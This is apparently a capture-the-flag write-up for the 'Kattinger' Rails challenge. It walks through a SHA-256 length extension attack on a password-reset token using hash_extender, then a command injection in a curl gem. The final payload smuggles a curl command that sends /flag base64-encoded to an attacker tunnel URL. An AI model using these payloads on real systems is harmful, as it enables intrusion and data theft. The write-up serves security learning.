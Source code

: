 # Kattinger

## Description

Fellow cat lovers, I made an app to share out favorites!

## Solution

The application is a platform to share and comment pictures of cats.

By looking at the source code, we can find that the flag is located in the admin page

```
class AdminController < ApplicationController
  include SessionHelper
  before_action :print_request_info, :require_login
  
  def index
    raise ActionController::RoutingError, 'Unauthorized' if !is_admin?()

    @FLAG = ENV['FLAG'] || 'snakeCTF{REDACTED}'
  end
end
```

To access it, we have to log in with the admin credentials.
In the db folder there's a file `seeds.rb`, which is used to populate the database:

```
User.create([
              { id: 1, username: 'REDACTED', password: 'REDACTEDREDACTEDREDACTED' },
              { id: 2, username: 'one', password: 'supercoolandsafepassword' },
              { id: 3, username: 'two', password: 'supercoolandsafepassword' }
            ])
.....
```

We can see that the admin's username and password are redacted, so we can't find the credentials here.

Reading the file located at `app/controllers/users_controller.rb` we can check how the authentication is handled. In this file we can see something weird going on in the create endpoint: 

```
params[:user][:username] = params[:user][:username].last(8)
```

Why are characters from the username removed? Let's check the model for the user:

```
class User < ApplicationRecord
    has_many :comments
    validates :username, presence: true, length: {maximum: 8}  # We have to save space!!
    validates :password, presence: true, length: {minimum: 16} # but we care about security
end
```

This tells us only the last 8 characters of the username are stored. This is for sure strange, can it be part of the vulnerability?

Moreover, in `user_controller.rb`, we can see how the `reset password` functionality is handled:

```
  def reset_submit
    ...
    #GET
    if request.get?
        render :reset_submit
        return
    else 
    #POST
      ...

      if !check(params[:user][:username], params[:user][:reset_token])
        @message = "Wrong reset token!"
        render :reset_submit, status: :unprocessable_entity
        return
      end
      ...
      @account = User.find_by(username: params[:user][:username].last(8))
      @message = "Sorry, we're still building the application. Your current password is: " + @account.password
      render :reset_submit, status: :gone
      return
    end
  end
```

The `reset_submit` method handles the requests for the password change functionality. We notice that the `check` function validate the token via the provided `username` and `reset_token`. Let's see how it works in the helper:

```
module UsersHelper
    require 'digest'

    def cipher(username)
        generator = Digest::SHA256::new
        generator << ENV['SECRET'] + username
        
        return generator.hexdigest()
    end

    def check(username, token)
        generator = Digest::SHA256::new
        generator << ENV['SECRET'] + username

        return generator.hexdigest() == token
    end
end
```

This scenario is clearly vulnerable to [hash extension attack](https://en.wikipedia.org/wiki/Length_extension_attack), so we just need to find the admin username to exploit it.

To find the username we can fuzz by the ID passed in the user's `show` method, since the accounts are not intended to be secret (notice that you can find someone account by clicking on its name on the comments, but of course the admin has no comments).

The admin can be easily recognized by the `admin` flag in its profile.

![admin account page](admin_account.png)

We can now use a tool called [hash extender](https://github.com/iagox86/hash_extender) to append the admin username to our username and generate a valid reset token.

```
hash_extender --data zqhGqlxi --secret 32 --append 4dm1n_54 --signature 1d7dba0c011a28b5cde8e6542a03fc1a71c006696cdcce827e984b308bab05e9 --format sha256
b4a6d13fef3f701df246049d00a114a11721f8ea4403ad947182bfaac4293ba4 7a716847716c786980000000000000000000000000000000000000000000014034646d316e5f3534
```
The first part of the output is the new reset token, whilst the second is the new username (hex encoded) to submit on the reset page.

After submitting the reset token, we get the admin password.

Going to the admin page, we get the following: `I was joking, read the file /flag`.
So we need to perform one last step to obtain the flag.

Now we're logged in as admin, and the only functionality we gained is in the cat preview page:

![cat on lsd](cat_on_lsd.png)

So let's read how this is implemented in the cat helper:

```
module CatsHelper
    require 'curl'
    require 'rmagick'
    require 'base64'
    require 'timeout'

    include Magick

    def process_image(image_path)        
        p "Processing: " + image_path
        image_path = image_path.encode!("utf-8").scrub()
        if image_path.start_with?('http') || image_path.start_with?('https')
            curl = CURL.new({:cookies_disable => false})
            curl.debug=true
            p image_path
            filename = Timeout::timeout(3) do
                curl.save!(image_path)
            end
            p filename
        else
            filename = image_path
        end
        processed = ImageList.new(image_path)
        processed = processed.solarize(100)
        result = 'data://image;base64,' + Base64.strict_encode64(processed.to_blob())
        File.unlink(filename)
        return result

    end
end
```

We notice that it is using the `curl` library to fetch the image and `rmagick` to process it.
The `curl` gem it's broken AF, we can read its source code [here](https://github.com/tggo/curl/blob/master/lib/curllite.rb):

```
def save!(url,path="/tmp/curl/curl_#{rand}_#{rand}.jpg")
FileUtils.mkdir_p(File.dirname(path))
    cmd = "curl  #{browser_type}   --location --compressed --silent  \"#{url}\" --output \"#{path}\"  "
    puts cmd.red  if @debug	 
	system(cmd)
	path
end
```

This is vulnerable to command injection. By setting the payload to something like `http://www.google.com" && curl "{tunnel.public_url}/$(cat /flag | base64)` as the `image_path` (or `location` in the cat's editing page) and visiting the preview path, we can trigger a request to our endpoint which sends us the flag.
